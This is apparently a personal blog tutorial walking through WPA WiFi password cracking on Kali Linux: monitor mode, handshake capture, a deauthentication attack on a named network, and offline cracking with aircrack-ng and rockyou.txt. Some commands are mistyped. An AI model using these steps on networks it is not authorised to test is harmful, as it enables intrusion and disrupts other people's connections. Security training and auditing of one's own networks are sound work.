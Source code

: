 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking
ogImage: https://res.cloudinary.com/noezectz/v1663745737/astro-paper/astropaper-x-forestry-og_kqfwp0.png

description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![Network Adapter](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-2.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
